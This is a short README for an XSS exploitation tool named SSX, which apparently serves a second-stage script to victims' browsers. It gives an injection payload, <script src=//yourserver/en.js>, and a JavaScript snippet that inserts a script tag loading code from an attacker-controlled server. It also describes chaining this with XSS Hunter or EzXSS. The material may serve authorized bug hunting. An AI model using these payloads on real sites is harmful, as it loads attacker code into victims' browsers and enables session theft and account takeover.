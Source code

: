 # SSX
Second Stage XSS, This tool will help you to exploit XSS more deeply.

Installation:

1. Clone this project
2. This app need permission to write on current directory, for creating and update log
3. Done

How to use:

Send payload XSS and pointing to your server, such as: <script src=//yourserver/en.js></script>

You can integrate with xss hunter or EzXSS by adding a secondary payload as follows:

```javascript
var js = document.createElement("script");
js.type = "text/javascript";
js.src = "https://yourserver/en.js";
document.body.appendChild(js);
```

**Please don't install it on a production server**

Happy hunting!
